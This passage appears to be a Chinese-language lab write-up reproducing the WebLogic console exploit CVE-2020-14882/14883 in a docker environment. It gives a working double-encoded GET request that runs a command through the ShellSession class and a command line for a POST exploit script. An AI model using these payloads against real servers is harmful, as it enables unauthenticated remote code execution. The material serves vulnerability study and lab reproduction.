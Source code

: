 访问后台后是一个低权限的用户，无法安装应用，也无法直接执行任意代码。

#### 2.weblogic远程命令执行（CVE-2020-14883）

结合 CVE-2020-14882 漏洞，远程攻击者可以构造特殊的HTTP请求，在未经身份验证的情况下接管 WebLogic Server Console ，并在 WebLogic Server Console 执行任意代码。

这个漏洞一共有两种利用方法：

```
第一种方法是通过com.tangosol.coherence.mvel2.sh.ShellSession
第二种方法是通过com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext
```

##### 2.1第一种方法（weblogic 12.2.x 适用）

这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在com.tangosol.coherence.mvel2.sh.ShellSession类。

###### 2.1.1 GET请求方式（无回显）

直接访问如下URL，即可利用com.tangosol.coherence.mvel2.sh.ShellSession执行命令：

```
http://ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

执行docker-compose exec weblogic bash进入容器中，可见/tmp/success1已成功创建。

![截图](02159d5738253205bffc1a3b48482fa5.png)

###### 2.1.2 POST请求方式（有回显）

执行命令如下：

```
python CVE-2020-14882_POST.py -u http://ip:7001/ -c "uname -a"
```
